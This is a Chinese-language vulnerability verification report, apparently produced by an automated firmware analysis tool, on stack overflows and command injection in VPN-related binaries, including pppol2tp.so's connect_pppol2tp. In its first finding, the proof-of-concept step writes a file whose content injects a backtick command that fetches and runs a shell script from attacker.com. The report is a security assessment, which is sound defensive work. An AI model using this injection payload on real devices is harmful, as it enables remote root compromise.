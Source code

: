 ## 验证结论

- **描述准确性：** `accurate`
- **是否为真实漏洞：** `True`
- **风险级别：** `High`
- **详细原因：** 安全警报准确描述了漏洞。反汇编代码显示：1) 在地址0x000033f4，sscanf使用格式字符串"%[^;];%[^;];%[^;];%[^;];%s"读取文件数据，写入固定栈缓冲区（如fp+0x48、fp+0x108、fp+0x144等），无宽度限制，可导致栈缓冲区溢出（例如，若输入字符串超过目标缓冲区大小）。2) 在多个位置（如0x0000381c、0x000038b4、0x0000391c），doSystemCmd直接使用用户输入执行系统命令，未 sanitize 输入，允许命令注入（如输入包含分号或反引号可注入任意命令）。攻击者模型：攻击者可通过全局可写/tmp目录创建恶意文件（如/tmp/pptp/logininfo0），内容包含恶意载荷，并触发VPN登录过程（例如通过网络请求）；进程可能以root权限运行，导致特权升级。PoC步骤：1) 创建文件/tmp/pptp/logininfo0，内容为"valid;`wget http://attacker.com/shell.sh -O /tmp/shell.sh && chmod +x /tmp/shell.sh && /tmp/shell.sh`;data;more;fields"。2) 触发VPN登录（如发送认证请求），导致命令执行。漏洞链完整：输入可控（文件内容）、路径可达（函数被VPN进程调用）、实际影响（root权限命令执行）。

## 验证指标

- **验证时长：** 308.94 秒
- **Token 使用量：** 275817

---

## 原始信息

- **文件/目录路径：** `lib/pppol2tp.so`
- **位置：** `pppol2tp.so:0x1a78 connect_pppol2tp`
- **描述：** 在 'connect_pppol2tp' 函数中，局部缓冲区 'auStack_34'（大小为18字节）被传递给一个函数调用，该调用使用 'uStack_38'（设置为38字节）作为长度参数，导致栈缓冲区溢出。触发条件：攻击者通过PPPoL2TP套接字发送超过18字节的恶意数据。边界检查缺失：函数未验证输入长度是否适配缓冲区大小。潜在利用方式：溢出可覆盖返回地址或关键栈数据，允许攻击者执行任意代码。攻击链完整：攻击者作为已认证用户可访问套接字，发送恶意数据触发溢出，实现权限提升或代码执行。
- **代码片段：**
  ```
  uint dbg.connect_pppol2tp(void)
  {
      ...
      uchar auStack_34 [18];
      uStack_38 = 0x26;
      ...
      (**(iStack_40 + -0x7fd0))(uVar4,auStack_34,&uStack_38); // Buffer overflow: 38 bytes written to 18-byte buffer
      ...
  }
  ```
- **备注：** 漏洞需要攻击者能访问PPPoL2TP套接字，可能通过网络服务或IPC实现。建议进一步验证套接字初始化逻辑和全局变量来源。关联函数：disconnect_pppol2tp。后续分析方向：检查调用此函数的组件（如pppd守护进程）以确认输入源和利用可行性。

## 验证结论

- **描述准确性：** `partially`
- **是否为真实漏洞：** `True`
- **风险级别：** `Medium`
- **详细原因：** 验证结果：警报部分准确。反编译证据确认了栈缓冲区溢出：在connect_pppol2tp函数中，18字节缓冲区auStack_34被传递给getsockname调用，同时uStack_38设置为38字节，导致溢出。栈布局分析显示缓冲区从sp+0x1c开始，溢出到sp+0x42，而返回地址在sp+0x4c，因此直接覆盖返回地址不可行（有10字节间隙），但会覆盖其他栈变量如auStack_22（从sp+0x2e开始），可能引发崩溃或数据损坏。攻击者模型：已认证用户可通过网络服务或IPC访问PPPoL2TP套接字，发送超过18字节的恶意数据触发溢出。漏洞可利用性：输入可控（攻击者影响套接字数据），路径可达（函数在pppol2tp_fd有效时执行），但实际影响限于拒绝服务或潜在信息泄露，而非直接代码执行。PoC步骤：攻击者作为已认证用户建立PPPoL2TP连接并发送精心构造的超过18字节的数据包，触发getsockname写入溢出，导致程序异常。

## 验证指标

- **验证时长：** 397.00 秒
- **Token 使用量：** 263410

---

